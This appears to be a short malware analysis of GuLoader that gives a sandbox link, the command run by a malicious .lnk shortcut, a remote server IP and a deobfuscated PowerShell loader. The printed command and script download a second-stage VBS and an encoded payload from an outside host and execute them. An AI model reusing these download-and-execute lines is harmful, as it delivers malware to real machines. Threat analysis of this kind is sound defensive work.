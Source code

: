 # GuLoader Analysis

### Dynamic Analysis
https://tria.ge/230310-r1hssafh8w/behavioral2

### Malicious Shortcut Doc065754.lnk executes the following command

```
"C:\WINDOWS\System32\WScript.exe" "\\localhost\c$\Windows\System32\SyncAppvPublishingServer.vbs" n;
Invoke-WebRequest http[:]//0xC2.11808979/sara/Vejlensisk90.vbs -OutFile C:\Windows\Tasks\Tepoler.vbs; 
C:\Windows\Tasks\Tepoler.vbs; 
Invoke-WebRequest http[:]//0xC2.11808979/sara/info.pdf -OutFile C:\Users\Public\info1.pdf; 
C:\Users\Public\info1.pdf
```

### Remote webserver IP

`194.180.48.211`

### Vejlensisk90.vbs executes the following Deobfuscated PS Script

```ps
Function StringReplace ([String]$Eddikeb){
	For($Modemets=1; $Modemets -lt $Eddikeb.Length-1; $Modemets+=(1+1)){
		$mdeaftens=$mdeaftens+$Eddikeb.Substring($Modemets, 1);};
	$mdeaftens;
}

$URL='http[:]//194.180.48[.]211/zara/Dedepseud52.toc';
$IEX=iex;
$PSPath = '\syswow64\WindowsPowerShell\v1.0\powershell.exe';
IEX $windirpath=$env:windir;
IEX $PSPath='C:\Windows\syswow64\WindowsPowerShell\v1.0\powershell.exe';
IEX $GetCurrentProcessPath = ((gwmi win32_process -F ProcessId=${PID}).CommandLine) -split '"';
IEX $CleanArrayofPath = $GetCurrentProcessPath[$GetCurrentProcessPath.count-2];
IEX $Model=(Test-Path $PSPath) -And ([IntPtr]::size -eq 8);

if ($Model) {
	.$PSPath $CleanArrayofPath;
} else {
	$BitsTransfer=Start-BitsTransfer -Source $URL -Destination $FileOutPut;
	IEX $FileOutPut=$env:appdata ;
	IEX Import-Module BitsTransfer;
	$windirpath=$windirpath+'\Raao.pal';

	while (-not $Ifpathexists) {
		IEX $Ifpathexists=(Test-Path $FileOutPut);
		IEX $BitsTransfer;
		IEX Start-Sleep 5;
	}
	IEX $FileData = Get-Content $FileOutPut;
	IEX $Base64Decoded = [System.Convert]::FromBase64String($FileData);
	IEX $ByteArray = [System.Text.Encoding]::ASCII.GetString($Base64Decoded);
	IEX $vbscript=$ByteArray.substring(188264,19335);
	IEX $vbscript;
}
```

